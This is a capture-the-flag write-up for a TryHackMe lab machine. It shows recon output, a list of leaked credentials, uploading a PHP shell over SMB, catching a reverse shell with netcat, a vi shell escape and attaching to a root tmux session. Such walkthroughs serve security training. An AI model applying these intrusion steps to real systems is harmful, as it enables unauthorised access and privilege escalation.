

| Link | Level | Creator |
|------|-------|---------|
| [Here](https://tryhackme.com/room/)  | Medium  |  [user](https://tryhackme.com/p/)  |

<!--
description : "Maquina de nivel medio en TryHackMe."

| Link | Nivel | Creador |
|------|-------|---------|
| [Aquí](https://tryhackme.com/room/)  | Medio  |  [user](https://tryhackme.com/p/)  |

## Reconocimiento
## Acceso inicial - Usuario


¡Y hemos rooteado la máquina!

Eso es todo de mi parte, ¡espero que lo encuentre útil!
-->

## Reconn

```bash
╰─ lanfran@parrot ❯ map 10.10.1.67                                                                                                 ─╯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-10 17:39 CEST
Nmap scan report for 10.10.1.67
Host is up (0.14s latency).
Not shown: 808 closed ports, 188 filtered ports
PORT     STATE SERVICE     VERSION
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
8080/tcp open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8082/tcp open  http        Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: Host: INCOGNITO

Host script results:
|_clock-skew: mean: 2m04s, deviation: 1s, median: 2m03s
|_nbstat: NetBIOS name: INCOGNITO, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: incognito
|   NetBIOS computer name: INCOGNITO\x00
|   Domain name: \x00
|   FQDN: incognito
|_  System time: 2021-07-10T15:42:29+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-07-10T15:42:29
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.65 seconds
```

```bash
╰─ lanfran@parrot ❯ scan http://10.10.1.67:8080/                                                                                   ─╯
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.1.67:8080/
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/07/10 17:39:52 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/.hta (Status: 403)
/dev (Status: 301)
/index.html (Status: 200)
/index.php (Status: 200)
/server-status (Status: 403)
===============================================================
2021/07/10 17:40:29 Finished
===============================================================
```
```bash
╰─ lanfran@parrot ❯ scan http://10.10.1.67:8080/dev -x txt,php                                                                                                                       ─╯
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.1.67:8080/dev
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,php
[+] Timeout:        10s
===============================================================
2021/07/10 18:20:31 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.php (Status: 403)
/.hta (Status: 403)
/.hta.txt (Status: 403)
/.hta.php (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.txt (Status: 403)
/note.txt (Status: 200)
===============================================================
2021/07/10 18:20:54 Finished
===============================================================
```

```bash
╰─ lanfran@parrot ❯ scan http://10.10.1.67:8082/                                                                                                                                     ─╯
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.1.67:8082/
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/07/10 17:42:33 Starting gobuster
===============================================================
/login (Status: 200)
/Login (Status: 200)
/static (Status: 301)
===============================================================
2021/07/10 17:43:23 Finished
===============================================================
```



```
Username Password
Tove Jani
Godzilla KONGistheKING
SuperMan snyderCut
ArthurMorgan DeadEye
```

```bash
 ======================================= 
|    Share Enumeration on 10.10.1.67    |
 ======================================= 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	SECURED         Disk      Dev
	IPC$            IPC       IPC Service (incognito server (Samba, Ubuntu))
```

## Foothold - User

```bash
╰─ lanfran@parrot ❯ smbclient //10.10.1.67/SECURED -U ArthurMorgan                                                                 ─╯
Enter WORKGROUP\ArthurMorgan's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 22 00:04:28 2021
  ..                                  D        0  Thu Mar 11 13:52:29 2021
  note.txt                            A       45  Thu Mar 11 13:19:52 2021

		7743660 blocks of size 1024. 4447240 blocks available
smb: \> get note.txt
getting file \note.txt of size 45 as note.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \> cd ..
smb: \> ld
ld: command not found
smb: \> ls
  .                                   D        0  Mon Mar 22 00:04:28 2021
  ..                                  D        0  Thu Mar 11 13:52:29 2021
  note.txt                            A       45  Thu Mar 11 13:19:52 2021

		7743660 blocks of size 1024. 4447240 blocks available
smb: \> exit
ca
╭─      ~/Desktop/THM/cold_vvars ▓▒░                                                                   ░▒▓ ✔  15s    10.9.4.9  ─╮
╰─ lanfran@parrot ❯ cat note.txt                                                                                                   ─╯
Secure File Upload and Testing Functionality

╭─      ~/Desktop/THM/cold_vvars ▓▒░                                                                           ░▒▓ ✔  10.9.4.9  ─╮
╰─ lanfran@parrot ❯ smbclient //10.10.1.67/SECURED -U ArthurMorgan                                                                 ─╯
Enter WORKGROUP\ArthurMorgan's password: 
Try "help" to get a list of possible commands.
smb: \> put shell_online.php 
putting file shell_online.php as \shell_online.php (27.9 kb/s) (average 27.9 kb/s)
```

```bash
╰─ lanfran@parrot ❯ nc -nlvp 1337                                                                                                  ─╯
listening on [any] 1337 ...
connect to [10.9.4.9] from (UNKNOWN) [10.10.1.67] 42472
bash: cannot set terminal process group (1008): Inappropriate ioctl for device
bash: no job control in this shell
www-data@incognito:/var/www/html/dev$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@incognito:/var/www/html/dev$ whoami
whoami
www-data
www-data@incognito:/var/www/html/dev$ ls -lRta /home
ls -lRta /home
/home:
total 16
drwxr-xr-x  8 marston      marston      4096 May 29 11:08 marston
drwxr-xr-x  6 ArthurMorgan ArthurMorgan 4096 May 28 13:23 ArthurMorgan
drwxr-xr-x 25 root         root         4096 May 28 12:59 ..
drwxr-xr-x  4 root         root         4096 Mar 21 21:46 .
```
And we can read the user's flag.

## Root

We switched to arthurmorgan with the password, and run the command `netstat -tulwn`

```bash
ArthurMorgan@incognito:/var/www/html/dev$ netstat -tulwn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:8082            0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:22            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:4545            0.0.0.0:*               LISTEN     
tcp6       0      0 :::139                  :::*                    LISTEN     
tcp6       0      0 :::8080                 :::*                    LISTEN     
tcp6       0      0 :::445                  :::*                    LISTEN     
udp        0      0 127.0.0.53:53           0.0.0.0:*                          
udp        0      0 10.10.138.243:68        0.0.0.0:*                          
udp        0      0 10.10.255.255:137       0.0.0.0:*                          
udp        0      0 10.10.138.243:137       0.0.0.0:*                          
udp        0      0 0.0.0.0:137             0.0.0.0:*                          
udp        0      0 10.10.255.255:138       0.0.0.0:*                          
udp        0      0 10.10.138.243:138       0.0.0.0:*                          
udp        0      0 0.0.0.0:138             0.0.0.0:*                          
raw6       0      0 :::58                   :::*                    7               
```

```bash
ArthurMorgan@incognito:~$ nc -nlvp 4545
Listening on [0.0.0.0] (family 0, port 4545)
Connection from 127.0.0.1 37376 received!


ideaBox
1.Write
2.Delete
3.Steal others' Trash
4.Show'nExit
:shellhell=/bin/sh
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
:shell
id
uid=1002(marston) gid=1003(marston) groups=1003(marston)
```

And running `ps -eaf --forest` we can see that there are some sessions running on it, so let's check them!

To attach your shell to the session, you need to use `tmux attach-session -t 0`

And after exiting some sessions, we get a `root` session!!


And we rooted the machine!

That's all from my side, hope you find this helpful!